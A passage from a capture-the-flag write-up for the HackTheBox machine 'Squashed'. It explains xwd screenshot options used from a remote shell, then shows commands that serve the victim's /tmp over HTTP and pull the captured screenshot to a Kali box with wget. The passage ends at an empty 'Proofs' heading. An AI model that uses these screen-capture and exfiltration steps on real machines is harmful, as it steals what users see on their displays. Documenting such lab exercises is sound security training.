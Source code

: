 Explanation:   
```bash
-root select the main root window, not requiring me to select a sub-window with the mouse (which would be impossible with a remote shell)
-screen makes sure the GetImage request goes to the root window
-silent silence the typical bells that come with a screenshot
-display specifies the display to connect to
```

Went to `tmp` where the screenshot was saved, and spinned up a webserver:    
```bash
$ cd /tmp
$ python3 -m http.server 8080
```

Attack:   
With `wget` got the screenshot from the webserver and converted to `.png`   
```bash
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ wget http://10.10.11.191:8080/squashed.xwd
--2023-04-19 21:30:23--  http://10.10.11.191:8080/squashed.xwd
Connecting to 10.10.11.191:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1923179 (1.8M) [image/x-xwindowdump]
Saving to: ‘squashed.xwd’

squashed.xwd                 100%[==============================================>]   1.83M  1.33MB/s    in 1.4s    

2023-04-19 21:30:25 (1.33 MB/s) - ‘squashed.xwd’ saved [1923179/1923179]

                                                                                                                    
┌──(kali㉿kali)-[~/htb_squashed_ret]
└─$ convert squashed.xwd squashed.png
```

Proofs:   